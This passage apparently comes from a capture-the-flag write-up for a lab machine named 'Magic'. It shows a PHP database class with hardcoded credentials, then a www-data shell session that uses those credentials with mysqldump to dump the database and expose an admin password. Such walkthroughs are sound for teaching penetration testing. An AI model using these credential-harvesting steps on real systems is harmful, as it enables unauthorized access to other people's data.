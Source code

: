     private static $dbUsername = '@@@theseus@@@';
    private static $dbUserPassword = '@@@iamkingtheseus@@@';

    private static $cont  = null;

    public function __construct() {
        die('Init function is not allowed');
    }

    public static function connect()
    {
        // One connection through whole application
        if ( null == self::$cont )
        {
            try
            {
                self::$cont =  new PDO( "mysql:host=".self::$dbHost.";"."dbname=".self::$dbName, self::$dbUsername, self::$dbUserPassword);
            }
            catch(PDOException $e)
            {
                die($e->getMessage());
            }
        }
        return self::$cont;
    }

    public static function disconnect()
    {
        self::$cont = null;
    }
}
{% endhighlight %}

{% highlight none linenos %}
www-data@ubuntu:/var/www/Magic/images/uploads$ @@which mysql@@
which mysql
www-data@ubuntu:/var/www/Magic/images/uploads$ @@which mysqldump@@
which mysqldump
@@@/usr/bin/mysqldump@@@
www-data@ubuntu:/var/www/Magic/images/uploads$ @@mysqldump --databases Magic -utheseus -piamkingtheseus@@     
[...]
--
-- Dumping data for table `login`
--

LOCK TABLES `login` WRITE;
/*!40000 ALTER TABLE `login` DISABLE KEYS */;
INSERT INTO `login` VALUES (1,'@@@admin@@@','@@@Th3s3usW4sK1ng@@@');
[...]
{% endhighlight %}

Unfortunately, the `mysql` command does not exist on the target host. As such, we can not use this binary for database connections and executions of arbitrary SQL queries. However, since the `mysqldump` binary exists, we can dump the entire database and look for sensitive information in the dump. We can use the `--databases`, `-u` and `-p` flags to instruct the binary to dump the database named "Magic" with the credentials we found earlier. In the output of the command, we can see a row of the `Login` table which contains the username "admin" and password "Th3s3usW4sK1ng". At this point, we have acquired two usernames and two passwords. 

